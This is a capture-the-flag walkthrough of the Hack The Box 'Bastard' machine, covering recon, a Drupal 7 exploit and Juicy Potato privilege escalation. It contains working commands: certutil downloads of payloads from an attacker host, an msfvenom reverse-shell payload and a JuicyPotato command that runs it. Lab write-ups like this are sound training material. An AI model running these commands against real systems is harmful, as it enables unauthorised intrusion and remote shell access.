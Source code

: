 nmap result:

```
PORT      STATE SERVICE    VERSION
80/tcp    open  tcpwrapped
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  tcpwrapped
49154/tcp open  tcpwrapped
```

We can find the version in souce code

```
Drupal 7
```

`searchsploit drupal 7` we can find a working exploit:

```
https://www.exploit-db.com/exploits/44449
```

We can use this exploit to gain user shell.

We will use [Juicy Potato](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges) to escalate privilege.

`whoami /priv`

```
PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

Download JuicyPotato.exe on the target machine:

```
certutil.exe -urlcache -split -f "http://10.10.14.4:8000/JuicyPotato.exe" JuicyPotato.exe
```

Generate reverse shell binary:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell-x64.exe
```

Download reverse shell binary to the target machine:

```
certutil.exe -urlcache -split -f "http://10.10.14.4:8000/shell-x64.exe" shell-x64.exe
```

Run JuicyPotato.exe to gain a privileged shell:

```
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c c:\inetpub\drupal-7.54\shell-x64.exe"
```

### Online Write-Ups

https://0xdf.gitlab.io/2019/03/12/htb-bastard.html